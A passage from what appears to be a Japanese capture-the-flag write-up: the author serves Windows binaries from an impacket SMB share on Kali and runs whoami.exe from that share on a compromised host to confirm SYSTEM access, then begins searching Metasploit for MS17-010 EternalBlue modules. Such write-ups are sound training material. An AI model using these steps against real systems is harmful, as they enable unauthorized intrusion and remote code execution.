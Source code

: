 ```
kali@kali:~$ locate smbserver
/usr/bin/impacket-smbserver
/usr/lib/python3/dist-packages/impacket/smbserver.py
/usr/lib/python3/dist-packages/impacket/__pycache__/smbserver.cpython-37.pyc
/usr/lib/python3/dist-packages/impacket/__pycache__/smbserver.cpython-38.pyc
/usr/share/doc/python3-impacket/examples/smbserver.py
```

```
kali@kali:~$ locate whoami
/usr/bin/ldapwhoami
/usr/bin/whoami
/usr/share/bash-completion/completions/ldapwhoami
/usr/share/man/man1/ldapwhoami.1.gz
/usr/share/man/man1/whoami.1.gz
/usr/share/windows-resources/binaries/whoami.exe
```


次にsmbserver.pyを使って共有フォルダtempを作成し/usr/share/windows-resources/binaries/以下を共有します。

```
kali@kali:~$ sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py temp /usr/share/windows-resources/binaries
Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

最後にさきほど獲得したシェルからwhoami.exeを参照します。

```
C:\WINDOWS\system32>\\10.10.14.7\temp\whoami.exe
\\10.10.14.7\temp\whoami.exe
NT AUTHORITY\SYSTEM
```

NT AUTHORITY\SYSTEMだということが分かったのでこれで終了です。



# おまけ
おまけとしてmetasploitを使ってMS17-010の脆弱性を突いてみました。
RHOSTの設定だけでいいので、めちゃくちゃ簡単に侵入できます。
まずは、searchコマンドを使ってms17-010で使えそうなモジュールを探しましょう。

```
msf5 > search ms17-010

Matching Modules
================

   #  Name                                           Disclosure Date  Rank     Check  Description
   -  ----                                           ---------------  ----     -----  -----------
   0  auxiliary/admin/smb/ms17_010_command           2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   1  auxiliary/scanner/smb/smb_ms17_010                              normal   No     MS17-010 SMB RCE Detection
   2  exploit/windows/smb/ms17_010_eternalblue       2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   3  exploit/windows/smb/ms17_010_eternalblue_win8  2017-03-14       average  No     MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption for Win8+
```